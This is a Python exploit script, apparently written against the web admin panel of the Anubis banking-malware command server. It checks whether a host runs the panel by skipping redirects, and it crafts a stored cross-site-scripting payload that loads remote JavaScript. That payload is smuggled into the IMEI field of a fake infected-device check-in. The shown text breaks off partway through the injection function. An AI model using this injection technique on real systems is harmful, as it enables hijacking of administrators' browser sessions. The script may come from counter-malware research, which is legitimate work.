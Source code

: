 


anubis_pxss_sploit.py
```python

#!/usr/bin/env python2
import base64
import sys
import requests


xss_vuln_endpoint = "/o1o/a3.php"


# Seen some code which does no exit/die after setting the Location 
# header, therefore a bypass is just to don't follow redirects
def isBackdoored(target):
  url = target + "/anubis/index.php"
  r = requests.get(url, allow_redirects=False)
  if "<title>------</title>" in r.text:
    return True
  return False

# url can't include ":" 
def createInject(url):
  return '<script src="//{}"></script>'.format(url)

def injectXSS(target, myjs, key="zanubis"):

  url = target + xss_vuln_endpoint

  # `IMEI` varchar(300) NOT NULL,
  imei = '751a7e1e83a492c8' + createInject(myjs)
  # `number` varchar(300) DEFAULT NULL,
  phoneNum = "01234567890"
  # `version` varchar(100) NOT NULL,
  version = "1.12"
  # `country` varchar(30) DEFAULT NULL,
  country = "germany"
  # `bank` varchar(500) DEFAULT NULL,
  bank = 'superbank'
  # `model` varchar(50) DEFAULT NULL,
  model = "newModel"
  # `version_apk` varchar(20) DEFAULT NULL,
  versionApk = "1.13"
  # `av` varchar(500) DEFAULT NULL,
  av = "noav"
  # `l_bank` varchar(2) DEFAULT NULL,
  iconCard = "ab"
  # `inj` varchar(2) DEFAULT NULL,
  iconInj = "cd"
	
  
  """
  $request = decrypt($request,cryptKey);
  $request=str_replace(":)",")",$request);
  $massivReq = explode(":", $request);
  $IMEI = isset($massivReq[0]) ? $massivReq[0] : "";
  $phoneNumber =isset($massivReq[1]) ? $massivReq[1] : "";
  $Version = isset($massivReq[2]) ? $massivReq[2] : "";
  [...]
  """

```